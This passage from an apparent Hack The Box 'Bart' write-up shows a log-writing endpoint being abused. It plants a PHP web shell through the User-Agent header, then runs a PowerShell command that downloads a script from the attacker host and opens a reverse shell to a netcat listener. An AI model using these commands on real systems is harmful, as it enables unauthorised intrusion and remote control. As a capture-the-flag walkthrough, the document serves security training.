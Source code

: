 ```js
</script>
```
This piece of code explain the functionality of `log` button on the page.
- Create a serialized object of the current request, store it in variable xhr.
- xhr.open() passes GET request to `/log/log.php` with a parameter `filename` containing a filename and username
- Pops an alert "Done"
- function is called and fetched requested from xhr.open() is alerted.

Let's change that `log.txt` filename to any other file, and try to make out what log.php is doing.
If I try to access `C:/boot.ini`:
```bash
$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=C:\boot.ini&username=harvey' 

Warning: file_put_contents(C:\boot.ini): failed to open stream: Permission
denied in C:\inetpub\wwwroot\internal-01\log\log.php on line 41
1
```

So, log.php tries to run `file_put_contents()` on boot.ini, Since it did not have much permissions, it didn't work.
Let's try to write in current directory, where we might have perms.
```bash
$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=.\caretaker.txt&username=harvey'  
1
$ curl http://internal-01.bart.htb/log/caretaker.txt
[2021-07-31 17:36:36] - harvey - curl/7.74.0[2021-07-31 17:36:52] - harvey - curl/7.74.0
```

I'll write a php file and inject php code using User-Agent headers.
```bash
$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=.\test.php&username=harvey' -A '<?php system($_GET['cmd']); ?>'
1
$ curl -s 'http://internal-01.bart.htb/log/test.php?cmd=whoami'  
[2021-07-31 17:43:11] - harvey - nt authority\iusr
```

Now, I easily got a reverse-shell using `Invoke-PowerShellTcp.ps1` 
```bash
$ curl 'http://internal-01.bart.htb/log/test.php?cmd=powershell%20iex%20(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.2/Invoke-PowerShellTcp.ps1%27);Invoke-PowerShellTcp%20-Reverse%20-IPAddress%2010.10.14.2%20-Port%204444'
```
```bash
$ rlwrap nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.81 52288
Windows PowerShell running as user BART$ on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\internal-01\log> whoami
nt authority\iusr
```

